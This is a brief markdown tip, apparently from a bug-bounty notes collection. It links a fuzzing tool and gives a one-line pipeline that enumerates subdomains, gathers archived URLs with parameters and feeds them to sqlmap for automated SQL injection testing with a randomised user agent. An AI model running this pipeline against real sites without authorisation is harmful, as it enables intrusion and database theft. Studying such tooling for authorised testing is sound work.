 # Tools
https://github.com/root-tanishq/userefuzz

SQL injection Oneliner.
subfinder -dL domains.txt | dnsx | waybackurl | uro | grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt
